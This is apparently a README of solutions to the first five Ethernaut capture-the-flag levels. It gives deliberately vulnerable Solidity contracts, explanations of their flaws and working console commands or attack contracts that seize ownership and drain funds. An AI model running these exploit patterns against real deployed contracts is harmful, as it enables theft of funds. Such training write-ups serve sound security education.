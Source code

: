 # Ethernaut

My [Ethernaut](https://ethernaut.openzeppelin.com/) CTF Solutions.

## Table of Contents

<details>
<summary>
<a href="#00-hello-ethernaut">00. Hello Ethernaut</a>
</summary>
<ol>
    <li><a href="./contracts/00-hello-ethernaut/">Contracts</a></li>
    <li><a href="./scripts/00-hello-ethernaut.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#01-fallback">01. Fallback</a>
</summary>
<ol>
    <li><a href="./contracts/01-fallback/">Contracts</a></li>
    <li><a href="./scripts/01-fallback.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#02-fallout">02. Fallout</a>
</summary>
<ol>
    <li><a href="./contracts/02-fallout/">Contracts</a></li>
    <li><a href="./scripts/02-fallout.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#03-coin-flip">03. Coin Flip</a>
</summary>
<ol>
    <li><a href="./contracts/03-coin-flip/">Contracts</a></li>
    <li><a href="./scripts/03-coin-flip.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#04-telephone">04. Telephone</a>
</summary>
<ol>
    <li><a href="./contracts/04-telephone/">Contracts</a></li>
    <li><a href="./scripts/04-telephone.ts">Script</a></li>
</ol>
</details>

## 00. Hello Ethernaut

This is a warm-up task. Call `await contract.info()` in the console and follow the instructions.

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.info();
// 'You will find what you need in info1().'

// 2
await contract.info1();
// 'Try info2(), but with "hello" as a parameter.'

// 3
await contract.info2('hello');
// 'The property infoNum holds the number of the next info method to call.'

// 4
await contract.infoNum();
// {
//  ...
//  words: [42],
// };

// 5
await contract.info42();
// 'theMethodName is the name of the next method.'

// 6
await contract.theMethodName();
// 'The method name is method7123949.'

// 7
await contract.method7123949();
// 'If you know the password, submit it to authenticate().'

// 8
await contract.password();
// 'ethernaut0'

// 9
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Browser Console Solution For Cheaters</summary>

```javascript
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's cheat the next challenge! :running:

</details>

<a href='./contracts/00-hello-ethernaut/'>Contracts</a> | <a href='./scripts/00-hello-ethernaut.ts'>Script</a>

## 01. Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to pass the challenge, we need to become the owner of the contract and withdraw the entire balance from the contract.

In the instance contract, the owner is set in 3 places:

1. Constructor. When deploying a contract.
2. Method `contribute`. To do this, we need to transfer at least 1 wei (but less than 0.001 Ether).
3. Method `receive`. This method is called every time we send Ether to a contract address without calling any contract function.

Understanding how `receive` works is the key to hacking this smart contract.

> You can read about how the `receive` function works in the [official docs](https://docs.soliditylang.org/en/v0.8.24/contracts.html#receive-ether-function), [stackexchange](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity).

The `receive` function checks the user has sent some non-zero amount of ether (at least 1 wei) and has already contributed some amount of ether (less than 0.001 ether) by calling the `contribute` method.

The hacking algorithm is as follows:

1. We call `contribute` and send 1 wei along with the function call.
2. We send to the contract address 1 wei. We are now the owner of the contract.
3. Call the `withdraw` function.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.contribute({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.sendTransaction({
  to: contract.address,
  value: _ethers.utils.parseUnits('1', 'wei'),
});

// 3
await contract.withdraw();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<a href='./contracts/01-fallback/'>Contracts</a> | <a href='./scripts/01-fallback.ts'>Script</a>

## 02. Fallout

### Challenge

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Since Solidity v0.4.23, constructors are now specified using the `constructor` keyword.
Before this version, the constructor was a function whose name was the same as the name of the contract.
Since Solidity [v0.5.0](https://docs.soliditylang.org/en/v0.8.24/050-breaking-changes.html#constructors) constructors must be defined using the `constructor` keyword.

The only place in the contract where the owner is set is in the `Fal1out` function. According to the creator of the contract, this should have been a constructor that would work once and could not be called again. In this case, hacking would not have been possible (for solidity version less than v0.5.0). However, the author made a typo in the name of the constructor and instead of `Fallout` it turned out to be `Fal1out`. And now we can easily withdraw money from the contract.

1. Call the `Fal1out` function. We become the owner of the contract.
2. Call the `collectAllocations` function. We get all the money from the contract.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.Fal1out({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.collectAllocations();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Real World Example Described By OpenZeppelin</summary>

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
}
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

</details>

<a href='./contracts/02-fallout/'>Contracts</a> | <a href='./scripts/02-fallout.ts'>Script</a>

## 03. Coin Flip

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

This is a challenge to understand how randomness works on Ethereum. Since this is a deterministic environment, it is not possible to create unpredictable randomness. If you need to use random in your protocol, then it is better to use oracles ([Chainlink VRF](https://docs.chain.link/vrf)).

In order to complete the challenge, we need to guess which side will fall out 10 times in a row.
Since this is based on the hash of the previous block, it is possible to calculate in advance which side will land.
To do this, we will write an attack contract and run it in [Remix Online](https://remix.ethereum.org/) and make 10 calls to the attack functions. Thus, we get the same `blockValue` as the instance, since we launch them in one transaction.

</details>

<details>
  <summary>Attack Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './CoinFlip.sol';

contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip _coinFlip;

  constructor(CoinFlip coinFlip) {
    _coinFlip = coinFlip;
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _coinFlip.flip(side);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

</details>

<a href='./contracts/03-coin-flip/'>Contracts</a> | <a href='./scripts/03-coin-flip.ts'>Script</a>

## 04. Telephone

### Challenge

Claim ownership of the contract below to complete this level.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

`tx.origin != msg.sender` gives the right to change the overner. This check will return `true` only if the CA (contract address) calls this function and not EOA (externally owned address).

To do this, we will write an attacker contract and run it in [Remix Online](https://remix.ethereum.org/).

</details>

<details>
  <summary>Attacker Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephoneAttacker {
  Telephone private _telephone;

  constructor(Telephone telephone) {
    _telephone = telephone;
  }

  function changeOwner() public {
    _telephone.changeOwner(msg.sender);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

</details>

<a href='./contracts/04-telephone/'>Contracts</a> | <a href='./scripts/04-telephone.ts'>Script</a>
